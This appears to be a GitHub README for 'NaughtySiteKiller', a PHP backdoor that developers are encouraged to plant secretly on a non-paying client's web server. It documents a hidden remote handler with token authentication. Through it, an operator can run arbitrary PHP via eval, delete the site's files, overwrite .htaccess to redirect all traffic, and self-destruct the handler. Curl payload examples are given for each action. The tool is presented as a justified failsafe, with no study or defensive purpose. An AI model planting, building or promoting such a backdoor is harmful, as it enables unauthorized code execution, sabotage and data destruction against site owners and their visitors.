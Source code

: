 ### Naughty Killer Class

## Naughty Client?

Ah, the joy of building a website for a "naughty" client who refuses to pay after getting full access to their cPanel. Don't fret! Instead of chasing them down, just drop the **NaughtySiteKiller** class on their server as a failsafe. This class lets you send HTTP requests to perform some rather *justifiable* actions on their website—whether it's deleting files, creating fake templates, or obstructing their site's content. It's the digital equivalent of "you won't pay? Fine, enjoy your broken website.

#### Key Features:
1. **Authentication**: Validates requests using Bearer or Basic token schemes.
2. **Token Generation**: Generate tokens from a password for authentication purposes.
3. **Action Handling**: Executes actions like `kill` (deletes files and self-destructs the script) and `template` (creates template files and updates `.htaccess`).
4. **Security**: Ensures that requests are authenticated by comparing the hashed token value.

---

### Usage Examples


Simply place the `NaughtySiteKiller` class on their server as an insurance measure. It supports token-based authentication and various actions like deleting files, creating templates, and updating `.htaccess` securely.

#### 1. Generating a Hashed Token

To authenticate requests, generate a token by hashing a password using the `sha256` algorithm. This token will be used for all incoming HTTP requests.

**Example**:
```php
$password = 'super_secret_password';
$token = $webKill->generateToken($password);  // Returns: "Bearer <hashed-password>"
```

Alternatively, you can directly hash the password:
```php
$password = 'super_secret_password';
echo hash('sha256', $password);  // Outputs the hashed token
```

#### 2. Handling the Incoming Request

Place the `NaughtySiteKiller` handler on the public directory of the website where it can be accessed through HTTP requests. This handler will process incoming requests, validate the authorization token, check the requested action (`kill`, `execute`, `template`, `self-key`), and execute the appropriate method.

**Example Usage**:
```php
// path/to/public_html/psk.php 
<?php
use \NaughtySiteKiller;

$psk = new NaughtySiteKiller('<your-secure-bearer-hashed-token-here>');
try {
    $psk->run();  // Run the script based on incoming HTTP request
} catch (Exception $e) {
    $psk->response("Unknown error occurred: {$e->getMessage()}", 500);  // Handle errors
}
```

> **Note**: Replace `<your-secure-bearer-hashed-token-here>` with the hashed token you generated in the previous step.

--

### Payload Fields

The following fields can be included in the payload when sending a request:

```php
$request = [
    'action'      => 'kill', // Action to perform: 'kill', 'execute', 'template', or 'self-key'.
    'content'     => 'Content for the template, execute (used in both HTML and PHP files when performing kill action, or for template creation).',
    'htmlContents'=> 'Content for the template.html file (used when performing kill action).', // HTML content for the template.
    'phpContents' => 'Content for the template.php file (used when performing kill action).', // PHP content for the template.
    'name'        => 'Filename to use when performing template action.', // Custom filename for the template.
    'htaccess'    => 'Content for the .htaccess file (overwrites existing .htaccess).',
];
```

#### Explanation of Fields:

- **`action`** (string): Specifies which action to perform:
  - `'kill'`: Deletes files including self and creates `index.php` and `index.html` files (HTML and PHP).
  - `'execute'`: Execute a string as PHP code using `eval` function. The instructions should be placed in `contents`.
  - `'template'`: Creates template file `<name>.php` and modifies `.htaccess` to redirect all website request to `<name>.php` if no custom htaccess content is provided.
  - `'self-key'`: self-destructing, delete the handler file only.
  
- **`content`** (string): Content to include in the generated template files. Used for both HTML and PHP files during the `kill` action, or for the `template` action.

- **`htmlContents`** (string): Content to be placed in the `<template-name>.html` file when performing the `kill` action.

- **`phpContents`** (string): Content to be placed in the `<template-name>.php` file when performing the `kill` action.

- **`name`** (string): The name of the template file to use when performing the `template` action. Default is `__template.php` if not specified.

- **`htaccess`** (string): The content for the `.htaccess` file. This will overwrite any existing `.htaccess` file during the `template` action. If not provided it will use default to redirect requests to the `<template-name>.php`.

---

### Payload Requests Examples

Here are examples of how to send payload requests using `curl` for the different actions (`kill`, `template`, and `self-key`), including the Bearer token in the header.

### 1. Kill Action Request (Deletes all files and creates template files)

```bash
curl -X POST http://your-server-url/naughty.php \
     -H "Authorization: Bearer YOUR_BEARER_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{
           "action": "kill",
           "phpContents": "<?php echo \"Hello, World!\"; ?>",
           "htmlContents": "<html><body><h1>Hello, World!</h1></body></html>"
        }'
```

### 1. Execute Action (Run custom code on the server—because we trust you)

The Execute Action allows you to send custom PHP code to be executed on the server. It's like a magic wand for your commands.

```bash
curl -X POST http://your-server-url/naughty.php \
     -H "Authorization: Bearer YOUR_BEARER_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{
           "action": "execute",
           "contents": "return \"Hello, Naughty Client!\";"
        }'
```

**Output:**

This will execute the PHP code and you will receive the following response:

```php
{
    "message": "Execution completed",
    "result": "Hello, Naughty Client!"
}
```

#### Explanation:

- `action`: Set to `"kill"` to trigger the kill action.
- `phpContents`: Content for the `template.php` file.
- `htmlContents`: Content for the `template.html` file.

### 2. Template Action Request (Creates template files and updates `.htaccess`)

```bash
curl -X POST http://your-server-url/naughty.php \
     -H "Authorization: Bearer YOUR_BEARER_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{
           "action": "template",
           "content": "<?php echo \"Welcome to the template!\"; ?>",
           "name": "custom_template.php",
           "htaccess": "RewriteEngine On\nRewriteRule ^.*$ custom_template.php [L,QSA]"
        }'
```

#### Explanation:

- `action`: Set to `"template"` to create a template file and update `.htaccess`.
- `content`: Content for the template (PHP code).
- `name`: Custom name for the template file (`custom_template.php`).
- `htaccess`: Custom `.htaccess` content to redirect all requests to the template.

### 3. **Self-Key Action Request (Reserved for future use)**

```bash
curl -X POST http://your-server-url/naughty.php \
     -H "Authorization: Bearer YOUR_BEARER_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{
           "action": "self-key"
        }'
```

#### Explanation:
- `action`: Set to `"self-key"`, delete the handler file only.

---

### Notes:
- **Authorization**: Replace `YOUR_BEARER_TOKEN` with the actual Bearer token you are using for authentication.
- **Server URL**: Replace `http://your-server-url/naughty.php` with the actual URL of your script.
- **Payload**: The payload for each action is sent as JSON in the body of the request using the `-d` flag with `curl`.
